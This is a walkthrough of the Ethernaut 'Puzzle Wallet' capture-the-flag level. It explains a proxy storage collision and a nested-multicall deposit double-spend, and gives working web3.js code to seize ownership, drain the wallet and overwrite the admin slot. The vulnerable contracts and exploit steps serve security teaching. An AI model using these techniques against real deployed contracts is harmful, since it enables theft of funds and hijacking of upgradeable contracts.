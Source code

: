 # [24. Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0xe13a4a46C346154C41360AAe7f070943F67743c9)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "@openzeppelin/contracts/math/SafeMath.sol";
import "@openzeppelin/contracts/proxy/UpgradeableProxy.sol";

contract PuzzleProxy is UpgradeableProxy {
  address public pendingAdmin;
  address public admin;

  constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) public {
    admin = _admin;
  }

  modifier onlyAdmin {
    require(msg.sender == admin, "Caller is not the admin");
    _;
  }

  function proposeNewAdmin(address _newAdmin) external {
    pendingAdmin = _newAdmin;
  }

  function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
    require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
    admin = pendingAdmin;
  }

  function upgradeTo(address _newImplementation) external onlyAdmin {
    _upgradeTo(_newImplementation);
  }
}

contract PuzzleWallet {
  using SafeMath for uint256;
  address public owner;
  uint256 public maxBalance;
  mapping(address => bool) public whitelisted;
  mapping(address => uint256) public balances;

  function init(uint256 _maxBalance) public {
    require(maxBalance == 0, "Already initialized");
    maxBalance = _maxBalance;
    owner = msg.sender;
  }

  modifier onlyWhitelisted {
    require(whitelisted[msg.sender], "Not whitelisted");
    _;
  }

  function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
  }

  function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
  }

  function deposit() external payable onlyWhitelisted {
    require(address(this).balance <= maxBalance, "Max balance reached");
    balances[msg.sender] = balances[msg.sender].add(msg.value);
  }

  function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
    require(balances[msg.sender] >= value, "Insufficient balance");
    balances[msg.sender] = balances[msg.sender].sub(value);
    (bool success, ) = to.call{ value: value }(data);
    require(success, "Execution failed");
  }

  function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
      bytes memory _data = data[i];
      bytes4 selector;
      assembly {
        selector := mload(add(_data, 32))
      }
      if (selector == this.deposit.selector) {
        require(!depositCalled, "Deposit can only be called once");
        // Protect against reusing msg.value
        depositCalled = true;
      }
      (bool success, ) = address(this).delegatecall(data[i]);
      require(success, "Error while delegating call");
    }
  }
}
```

We have an Upgradable Proxy implementation in use here. [Proxies](https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies) are a sort of middleman between some logic and your main contract, such that instead of writing that logic in the main contract and thus not being able to upgrade it, you write it in some other contract and make the proxy point there. This way, if that logic needs an update you create a new contract and point the proxy there. `delegatecall` is used to implement this, but you should know by now that life is not easy when you use `delegatecall` without care!

## Storage Collision

The first thing we may notice is that there is a storage collision between proxy and logic.

| slot | proxy | logic |
|--|--|--|
| 0 | `pendingAdmin` | `owner` |
| 1 | `admin` | `maxBalance` |
| 2 |  | `whitelisted`  (map) |
| 3 |  | `balances`  (map) |

With this exploit in mind, let us see our options:

- If the logic writes to `maxBalance`, it will overwrite `admin` in the proxy. That seems to be a good attack vector to win the game.

- To update `maxBalance`, the wallet balance must be 0 and `msg.sender` must be whitelisted.

- For wallet balance to be 0, we need to drain it somehow.

- To be whitelisted, `addToWhitelist` must be called by the `owner`.

- But hey, `owner` collided with `pendingAdmin` in the proxy, and we can very well overwrite it via `proposeAdmin`! We can add ourselves to the whitelist after becoming the owner.

## Draining the Wallet

The plan seems good so far, but one piece is missing: how do we drain the wallet? Assuming we are both the owner and whitelisted, let's see what we have:

- `deposit` function allows you to deposit, with respect to not exceeding `maxBalance`.
- `execute` function allows you to `call` a function on any address with some value that is within your balance. Without any call data and your address as the destination, this acts like a `withdraw` function.
- `multicall` function allows you to make multiple calls of the above two, in a single transaction. This function is basically the main idea of the entire contract.

The `multicall` function supposedly checks for double spending on `deposit` via a boolean flag; however, this flag works only for one `multicall`! If you were to call `multicall` within a `multicall`, you can bypass it. Since `delegatecall` forwards `msg.value` too, you can put more money than you have to your balance.

## Attack

First things first, let's become the `owner` and whitelist ourselves. Within the console, we are only exposed to the logic contract (`PuzzleWallet`) via `contract` object, but everything goes through proxy first. We can call the functions there by manually giving the calldata.

```js
const functionSelector = '0xa6376746'; // proposeNewAdmin(address)
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.utils.encodePacked(functionSelector, web3.utils.padLeft(player, 64))
})
// confirm that it worked
if (player == (await contract.owner())) {
  // whitelist ourselves
  await contract.addToWhitelist(player)
}
```

The next step is to drain the contract balance. When we check the total balance via `await getBalance(contract.address)` we get `0.001`. So if we somehow deposit `0.001` twice with double-spending, the contract will think total balance to be `0.003` but actually it will be `0.002`. Then we can withdraw our balance alone and the contract balance will be drained.

Here is a schema on how we will arrange the `multicall`s:

```js
// let 'b' denote balance of contract
// call with {value: b}
multicall:[
  deposit(), 
  multicall:[
    deposit() // double spending!
  ],
  execute(player, 2 * b, []) // drain contract
]
```

Writing the actual code for this schema:

```js
// contract balance
const _b = web3.utils.toWei(await getBalance(contract.address))
// 2 times contract balance
const _2b = web3.utils.toBN(_b).add(web3.utils.toBN(_b))
await contract.multicall([
  // first deposit
  (await contract.methods["deposit()"].request()).data,
  // multicall for the second deposit
  (await contract.methods["multicall(bytes[])"].request([
    // second deposit
    (await contract.methods["deposit()"].request()).data
  ])).data,
  // withdraw via execute
  (await contract.methods["execute(address,uint256,bytes)"].request(player, _2b, [])).data
],
{value: _b})
```

Thanks to the `multicall`, the attack will be executed in a single transaction too :) Afterwards, we can confirm via `await getBalance(contract.address)` that the balance of the contract is now 0.

We are ready for the next step, which is to call `setMaxBalance`. Whatever value we send here will overwrite the `admin` value, so we just convert our address to an `uint256` and call this function:

```js
await contract.setMaxBalance(web3.utils.hexToNumberString(player))
// see that admin value is overwritten
await web3.eth.getStorageAt(contract.address, 1)
```

That is all!
